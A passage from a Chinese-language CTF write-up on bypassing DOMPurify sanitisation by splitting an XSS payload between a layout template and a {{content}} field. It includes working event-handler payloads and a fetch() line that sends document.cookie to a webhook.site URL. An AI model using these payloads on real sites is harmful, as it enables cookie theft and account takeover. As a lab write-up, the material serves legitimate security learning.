 可以看到在 content 的实现中是先检测再替换，也就是说我们可以将 payload 分为两段，一段写入 layout ，并将会被过滤的部分替换为 {{content}}，第二段写入 content，值就为会被过滤的部分，这样的话 content 和 layout 都可以绕过 `DOMPurify.sanitize()` 的检测，而且也会将 content 的值拼入 layout 中，形成最后的恶意 payload。而之所以 content 的值不会被过滤，应该是没有形成一个完整的 html ，没被检测到，可以在官方的github 上找到个 demo 来测试一下：[DOMPurify 3.2.4 &#34;Shipwreck&#34;](https://cure53.de/purify)

![image-20250308193105525](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174930887.png)

![image-20250308193135429](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174930886.png)

可以看到第二次就被过滤了而第一次却没有被过滤，弹个窗先

layout 为

```
&lt;audio src={{content}}&gt;
```

content 为

```
&#34;a&#34; onloadstart=&#34;alert(1)&#34;
```

create post 就弹窗了

![image-20250308193538228](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174930904.png)

源码也可以看到是成功插入了的

![image-20250308193839895](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174930910.png)

带下 cookie

```
&#34;a&#34; onloadstart=&#34;fetch(&#39;https://webhook.site/98df9897-f596-4e4b-9994-3ee26ff59249?f=&#39; &#43; document.cookie)&#34;
```

![image-20250308194217163](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174931314.png)

后面两道加强题都可以参考：https://mizu.re/post/exploring-the-dompurify-library-hunting-for-misconfigurations#dangerous-allow-lists

### safe layout

加强了过滤

![image-20250309201717396](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174931354.png)

将 `ALLOWED_ATTR` 置为空，也就是不能引用属性，但跟进后会发现还可以用 `ALLOW_DATA_ATTR` 和 `ALLOW_ARIA_ATTR`

![image-20250311133736480](https://6s6photo.oss-cn-chengdu.aliyuncs.com/20250625174931381.png)

也就是说我们依然可以用自定义的 data，后接恶意代码即可

layout

```
&lt;audio data-a={{content}}&gt;
```
